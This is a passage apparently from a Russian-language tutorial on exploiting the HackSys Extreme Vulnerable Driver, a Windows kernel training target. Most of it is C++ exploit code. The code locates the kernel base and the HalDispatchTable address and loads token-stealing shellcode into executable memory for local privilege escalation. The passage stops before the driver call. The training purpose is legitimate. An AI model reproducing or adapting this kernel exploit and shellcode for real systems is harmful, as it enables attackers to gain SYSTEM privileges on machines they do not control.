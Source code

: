 ```cpp
    }
    else {
        printf("EnumDeviceDrivers failed; array size needed is %d\n", cbNeeded / sizeof(LPVOID));
        return 1;
    }

    return 0;
}
```

Допиливаем напёрстком сплойт, собираем шелл и Viola!

```cpp
#include <Windows.h>
#include <psapi.h>
#include <tchar.h>
#include <stdio.h>

#define IO_CODE 0x22200B

const char kDevName[] = "\\\\.\\HackSysExtremeVulnerableDriver";

#define ARRAY_SIZE 1024

int main() {
    __debugbreak();
    LPVOID drivers[ARRAY_SIZE];
    DWORD cbNeeded;
    int cDrivers, i;

    if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) & cbNeeded < sizeof(drivers)) {
        TCHAR szDriver[ARRAY_SIZE];

        cDrivers = cbNeeded / sizeof(drivers[0]);

        printf("There are %d drivers:\n", cDrivers);
        for (i = 0; i < cDrivers; i++) {
            if (GetDeviceDriverBaseName(drivers[i], szDriver, sizeof(szDriver) / sizeof(szDriver[0]))) {
                //printf(" - %ws - \n", (const WCHAR *)szDriver);
                //printf("%ls : %ls\n", szDriver, TEXT("ntkrnlpa.exe"));
                if (!wcscmp(szDriver, TEXT("ntkrnlpa.exe"))) {
                    printf("[+] Kernel Image Base: %p\n", drivers[i]);

                    HMODULE ntkrnlpaHandle = LoadLibraryExW(szDriver, 0, 0);
                    PVOID HALUserLand = (PVOID)GetProcAddress(ntkrnlpaHandle, "HalDispatchTable");
                    printf("[+] HalDispatchTable userland: %p \n", HALUserLand);
                    printf("\n\nHALUserLand: %p\nntkrnlpaHandle: %p\ndrivers[i]: %p\n\n", HALUserLand, &ntkrnlpaHandle, drivers[i]);
                    PVOID HalDispatchTable = (PVOID)((ULONG)drivers[i] - (ULONG)ntkrnlpaHandle + (ULONG)HALUserLand + 4);
                    //PVOID HalDispatchTable = HALUserLand – ntkrnlpaHandle + szDriver;

                    printf("[~] HalDispatchTable Kernel: %p\n", HalDispatchTable);
                    const char* shellcode = "\x90\x90\x90\x90\x60\x31\xc0\x64\x8b\x80\x24\x01\x00\x00\x8b\x40\x50\x89\xc1\xba\x04\x00\x00\x00\x8b\x80\xb8\x00\x00\x00\x2d\xb8\x00\x00\x00\x39\x90\xb4\x00\x00\x00\x75\xed\x8b\x90\xf8\x00\x00\x00\x89\x91\xf8\x00\x00\x00\x61\x31\xc0\x83\xc4\x24\x5d\xc2\x08\x00";
                    LPVOID shellc_ptr = VirtualAlloc(0, 65, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
                    if (shellc_ptr)
                        memcpy(shellc_ptr, shellcode, 65);

                    printf("[+] Calling CreateFileA() to obtain a handle to driver\n");
```